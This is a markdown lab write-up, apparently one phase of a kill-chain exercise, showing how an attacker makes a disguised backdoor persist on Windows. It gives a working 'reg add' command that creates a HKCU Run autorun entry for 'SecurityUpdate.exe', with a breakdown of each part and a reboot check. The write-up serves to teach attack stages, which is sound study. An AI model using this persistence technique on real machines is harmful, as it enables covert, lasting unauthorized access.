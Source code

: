 # 🧬 Phase 5: Installation

## 🎯 Objective

Establish persistence on the victim’s machine to maintain access across system reboots.

---

## 🛠️ Step 1: Create a Persistent Backdoor

The attacker modifies **Windows registry settings** to run the malicious payload automatically at login:

* The executable `SecurityUpdate.exe` is disguised as a system update.
* A **registry autorun entry** is created under the current user hive.
* The value is labeled `update.exe` to blend in with legitimate Windows processes.

---

## 💻 Registry Command

Run the following command from a Meterpreter session or remote shell to register the backdoor:

```cmd
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "update.exe" /t REG_SZ /d "C:\Users\Bob\Downloads\SecurityUpdate.exe" /f
```

📌 **Command Breakdown**

| Part                             | Purpose                                                       |
| -------------------------------- | ------------------------------------------------------------- |
| `HKCU\...\Run`                   | Registry key for user-level startup programs                  |
| `/v "update.exe"`                | Name of the registry value (disguised as legitimate)          |
| `/t REG_SZ`                      | Declares the data type as a string                            |
| `/d "C:\...\SecurityUpdate.exe"` | Path to the payload that will run at login                    |
| `/f`                             | Forces the registry modification without confirmation prompts |

![Registry screenshot](https://github.com/user-attachments/assets/73d813bc-eccb-4d4b-b376-1bb7e980b069)

---

## 🔁 Step 2: Validate Persistence

* The attacker **reboots the victim’s machine**.
* Upon startup, the backdoor (`SecurityUpdate.exe`) is executed automatically.
* The attacker successfully regains remote access via the previously established reverse shell.

---

## 🧩 Summary

✅ **Persistence Achieved**:
The backdoor now runs every time the user logs in, ensuring long-term control.

🛡️ **Real-World Implication**:
Such persistence techniques are commonly used in real-world intrusions to maintain access while the attacker continues data exfiltration or lateral movement undetected.

